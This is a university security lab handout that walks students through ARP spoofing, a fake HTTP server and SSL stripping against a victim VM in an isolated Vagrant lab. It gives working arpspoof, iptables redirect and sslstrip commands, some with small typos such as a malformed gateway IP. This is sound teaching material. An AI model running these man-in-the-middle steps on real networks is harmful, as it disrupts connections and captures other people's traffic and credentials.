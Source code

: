 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

*As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ sudo arpspoof -i eth1 -t 10.0.1.101 10.1.100
```

Finally:

- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

*As Mallory* (terminal 2), redirect HTTP traffic (port 80) to port 8080 (Mallory's fake server)

```shell
vagrant@mallory:~$ sudo bash -e "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

*As Mallory* (terminal 2), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

*As Mallory* (terminal 1), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## ARP Spoofing (fake HTTPS server)

How could Mallory setup the attack if Alice tries to connect to Mathlab using HTTPS?

```shell
vagrant@alice:~$ curl https://mathlab.utsc.utoronto.ca/
```

## SSLStripping

In this part, rather than redirecting Alice to a fake HTTPS server, Mallory wants to relay traffic between Alice and Mathlab as a man-in-the-middle attack. The goal is to fool Alice into sending non-encrypted HTTPS requests to Mallory.

*As Mallory* (terminal 2), forward all HTTPS traffic to the SSLStrip proxy.

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

Finally:

- *As Alice*, test that (real) Mathlab is now reachable with HTTPS
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic